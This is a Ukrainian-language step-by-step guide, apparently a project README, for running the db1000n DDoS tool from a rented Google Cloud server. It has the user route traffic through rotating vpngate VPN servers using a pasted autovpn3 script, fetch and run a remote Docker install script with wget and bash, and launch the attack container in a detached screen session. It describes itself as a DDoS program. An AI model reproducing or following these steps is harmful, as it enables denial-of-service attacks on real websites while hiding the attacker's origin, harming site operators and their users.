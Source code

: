 # Death by 1000 needles

Developed by Arriven (https://github.com/Arriven)

## Інструкція для новачків як встановити на виділений сервер google clouds

Спочатку треба зареєструватися та створити виділений сервер в cloud.google.com або іншому сервісі.
cloud.google.com дають при старті 300$ для використання серверів - цього повинно хватати надовго.
Робимо все по інструкції як вказано тут:

**https://telegra.ph/%D0%86nstrukc%D1%96ya-yak-DDositi-sajti-za-dopomogoyu-server%D1%96v-02-26**

тільки в пункті 6 вибираємо **e2-medium** тому що **e2-micro** не тягне.

доходимо до пункту 8.
далі робимо слідуюче:

### Спочатку оновлюємо систему

для копіювання і вставлення команд в командному рядку працюють комбінації клавіш **ctrl**+**C** **ctrl**+**V**

```
sudo apt-get update
```

потім встановлюємо программи (виконуємо команди по одній)

```
sudo apt-get install screen
```

```
sudo apt-get install openvpn
```

попросить підтвердження встановлення. нажимаємо **y** та **enter**

### Создаємо конфіг для впн

```
nano autovpn3.sh
```

відкриється редактор, копіюємо і вставляємо туди текст нижче. **ctrl**+**C** **ctrl**+**V**

```
#!/bin/bash

# autovpn3, coded by MiAl,
# you can leave a bug report on the page: https://miloserdov.org/?p=5858
# сообщить об ошибке на русском вы можете на странице: https://HackWare.ru/?p=15429

# you can change these parameters:
country='RU' # empty for any or JP, KR, US, TH, etc.
useSavedVPNlist=0 # set to 1 if you don't want to download VPN list every time you restart this script, otherwise set to 0
useFirstServer=0 # set the value to 0 to choose a random VPN server, otherwise set to 1 (maybe the first one has higher score)
vpnList='/tmp/vpns.tmp'
proxy=0 # replace with 1 if you want to connect to VPN server through a proxy
proxyIP=''
proxyPort=8080
proxyType='socks' # socks or http
# don't change this:
counter=0
VPNproxyString=''
cURLproxyString=''
if [ $proxy -eq 1 ];then
    echo 'We will use a proxy'
    if [ -z "$proxyIP" ]; then
        echo "To use a proxy, you must specify the proxy's IP address and port (hardcoded in the source code)."
        exit
    else
        if [ "$proxyType" == "socks" ];then
            VPNproxyString=" --socks-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy socks5h://$proxyIP:$proxyPort "
        elif [ "$proxyType" == "http" ];then
            VPNproxyString=" --http-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy http://$proxyIP:$proxyPort "
        else
            echo 'Unsupported proxy type.'
            exit
        fi
    fi
fi

if [ $useSavedVPNlist -eq 0 ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
elif [ ! -s $vpnList ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
else
    echo 'Using existing VPN list'
fi

while read -r line ; do
    array[$counter]="$line"
    counter=$counter+1
done < <(grep -E ",$country" $vpnList)
CreateVPNConfig () {
    if [ -z "${array[0]}" ]; then
        echo 'No VPN servers found from the selected country.'
        exit
    fi

    size=${#array[@]}

    if [ $useFirstServer -eq 1 ]; then
        index=0
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    else
        index=$(($RANDOM % $size))
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    fi

    echo 'Choosing a VPN server:'
    echo "Found VPN servers: $((size+1))"
    echo "Selected: $index"
    echo "Country: `echo ${array[$index]} | awk -F "," '{ print $6 }'`"
}

while true
    do
        CreateVPNConfig
        echo 'Trying to start OpenVPN client'
        sudo openvpn --config /tmp/openvpn3 $VPNproxyString
        read -p "Try another VPN server? (Y/N): " confirm && [[ $confirm == [yY] || $confirm == [yY][eE][sS] ]] || exit
    done
```

для вихода нажимаємо **ctrl**+**X** далі для збереження нажимаємо **Y** та **enter**

даємо права на виконання файлу

```
chmod +x autovpn3.sh
```

### Далі запускаємо впн.

создаємо нову сессію терміналу

```
screen
```

видасть додатокве вікно натискаємо там **enter**

запускаємо скрипт vpn

```
sudo ./autovpn3.sh
```

якщо видає помилку **_No VPN servers found from the selected country._**
то відкриваємо ще раз конфіг на редагування

```
nano autovpn3.sh
```

ідемо на строку **_country='RU' _**
і змінюємо країну на іншу. наприклад японія **JP**

запуститься скрипт, щоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**

### Далі встановлюємо докер

```
 wget https://gist.githubusercontent.com/antl31/83229c0eaaa1d259a569cfb57ab75230/raw/b4e01a106fbe534a7bfa4930a66cf933c6366c5c/install_docker.sh
```

```
bash install_docker.sh
```

встановиться докер та відкриється вже нова сесія терміналу. натискаємо **enter**

### Запускаємо скрипт

```
sudo docker run ghcr.io/arriven/db1000n-advanced
```

якщо скрипт запустився та працює постійно хочаб хвилин 10 то все нормально. профіт.
якщо скрипт попрацював трохи і вийшов - змінюйте країну і запускайте наново.

щоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**

коли ви вийдете то можете закривати вікно все працює.
через деякий час щоб перевірити як працює скрипт треба ще раз відкрити через пункт **Open in browser window** в панелі керування гугл клоуд

тут треба навчитися користуватися вікнами **screen**

пишемо

```
screen -ls
```

побачимо вивід команди:

**There are screens on:**<br/>
**4688.pts-0.instance-5 (03/04/22 11:12:13) (Detached)**<br/>
**2219.pts-0.instance-5 (03/04/22 09:59:36) (Detached)**<br/>
**2 Sockets in /run/screen**

тут ми бачимо що запущені 2 сесії (номери на початку 2 і 3 строки у вас будуть інші).
дивимося по часу запуску що одна запущена раніше, інша пізніше.
значить та шо раніше там впн, та шо пізніше - наша программа для ддос.
щоб перейти на вікно з программою потрібно написати

```
screen -r 4688
```

номер у вас буде свій. вписуєте той шо в вас.
ви перейдете на термінал з запущеною программою.

якщо у вас виникають проблеми із запуском то зверніться в чат телеграмм https://t.me/+md-77jub3zQyOWRi

